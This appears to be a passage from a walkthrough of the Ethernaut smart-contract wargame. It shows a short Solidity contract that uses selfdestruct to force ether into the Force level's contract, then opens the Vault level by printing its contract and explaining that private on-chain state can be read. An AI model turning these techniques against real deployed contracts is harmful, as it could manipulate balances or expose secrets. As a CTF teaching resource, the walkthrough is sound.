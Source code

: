 Simple `transfer` or `send` won't work because the `Force` implements neither `receive` nor `fallaback` functions. Calls with any value will revert.

However, the checks can be bypassed by using `selfdestruct` of an intermediate contract - `Payer` which would specify `Force`'s address as beneficiary of it's funds after it's self-destruction.

Solution:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.7;

contract HackForce {
    uint public balance = 0;

    function destruct(address payable _to) external payable {
        selfdestruct(_to);
    }

    function deposit() external payable {
        balance += msg.value;
    }
}
```

Send a value of say, `10000000000000 Wei` (0.00001 eth) by calling `deposit`, so that `Payer`'s balance increases to same amount.

Call `destruct` of Payer with `<instance-address> ` as parameter. That's destroy `Payer` and send all of it's funds to `Force`.

### Level 8. Vault

**Goal**: `player` has to set locked to false.

It's important to remember that marking a variable as private **_only prevents other contracts from accessing it_**. State variables marked as private and local variables are still publicly accessible.

To ensure that data is private, it needs to be encrypted before being put onto the blockchain. In this scenario, the decryption key should never be sent on-chain, as it will then be visible to anyone who looks for it. [zk-SNARKs](https://blog.ethereum.org/2016/12/05/zksnarks-in-a-nutshell/) (RSA (Rivest–Shamir–Adleman, a public-key cryptosystem) and Zero-Knowledge Proofs) provide a way to determine whether someone possesses a secret parameter, without ever having to reveal the parameter.

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```
